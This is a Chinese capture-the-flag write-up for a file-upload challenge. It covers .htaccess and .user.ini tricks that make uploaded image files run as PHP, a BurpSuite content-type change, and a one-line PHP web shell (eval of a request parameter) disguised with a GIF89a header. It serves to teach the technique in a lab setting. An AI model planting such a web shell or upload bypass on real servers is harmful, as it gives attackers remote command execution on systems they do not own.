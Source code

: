 感觉作为一道难度为1的题目，难度远超于1了:worried:

首先打开这个界面发现会对文件的类型进行检验

然后查到相关的资料（前置知识）

.htaccess文件是用于apache服务器下的控制文件访问的配置文件，因此Nginx下是不会生效的

一般.htaccess可以用来留后门和针对黑名单绕过

　　创建一个txt写入

　　 AddType application/x-httpd-php .png   （这个配置信息的意思是把.png文件当成php文件解析）

　　打开另存为

　　保存类型为所有文件

　　让 png 解析为 php 

　　还可以把png改成其他图片格式~例如jpeg、gif等等...

　　另外，还有一个知识~（此题没用到这部分知识）

　　可以在.htaccess 加入php解析规则

　　类似于把文件名包含1的解析成php

　　<FilesMatch "1">

　　SetHandler application/x-httpd-php

　　</FilesMatch>

　　1.png 就会以php执行

然后查到这道题可以利用.user.ini文件（.user.ini文件为比较常用的配置文件）

在服务器中，只要是运用了fastcgi的服务器就能够利用该方式getshell，不论是apache或者ngnix或是其他服务器。
这个文件是php.ini的补充文件，当网页访问的时候就会自动查看当前目录下是否有.user.ini，然后将其补充进php.ini，并作为cgi的启动项。
其中很多功能设置了只能php.ini配置，但是还是有一些危险的功能可以被我们控制

有2个属性，它们的作用是，`auto_append_file`在`php`文件最后用`require`包含进指定文件，`auto_prepend_file`则是在`php`文件代码执行前用`require`包含进指定的文件

解题：编辑.user.ini文件如下

GIF89a
auto_prepend_file=a.jpg   它告诉服务器在每个 PHP 文件之前自动包含名为 `a.jpg` 的文件。这个文件可以是一个 PHP 脚本或其他类型的文件。它的作用是在 PHP 文件执行之前自动执行指定的代码，例如设置全局变量或加载自定义函数库。

上传.user.ini文件（注意用BurpSuite抓包修改文件类型为image/jpg）

然后编辑a.txt

如下：

GIF89a
<?=eval($_REQUEST['cmd']);?>

然后即可用蚁剑抓包获取flag





